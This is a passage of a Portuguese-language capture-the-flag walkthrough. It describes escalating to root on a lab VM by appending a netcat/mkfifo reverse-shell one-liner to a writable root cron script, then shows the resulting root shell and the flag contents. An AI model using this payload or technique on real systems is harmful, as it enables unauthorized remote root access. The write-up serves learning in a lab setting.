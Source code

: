 ```
drwxr-xr-x 3 peter      peter      4096 Jun  3  2016 peter
drwxrwxrwx 2 www        www        4096 Jun  5  2016 www
drwxr-xr-x 2 zoe        zoe        4096 Jun  5  2016 zoe
```

É muita gente, executo um find e não encontro nada relevante. Procuro, procuro e nada que me encha os olhos, decido rodar o lse.sh (https://github.com/diego-treitos/linux-smart-enumeration):
```
/etc/cron.d/logrotate: */5 *   * * *   root  /usr/local/sbin/cron-logrotate.sh
```
Interessante, é isso que eu vou aproveitar para escalar os meus privilégios.

10) Adiciono a carga abaixo no cron-logrotate.sh, subo um listener via netcat e aguardo alguns minutos:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.105 1234 >/tmp/f
```

Minutos depois como usuário root e flag final:
```
root@parrot:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.56.105] from (UNKNOWN) [192.168.56.107] 45066
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls   
fix-wordpress.sh
flag.txt
issue
python.sh
wordpress.sql
# cat flag.txt
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b
```

Bem divertida, segundo o criador existem 2 maneiras de conseguir entrar na máquina e 3 formas para escalar até o root, bom essas foram as que eu encontrei. Até mais.

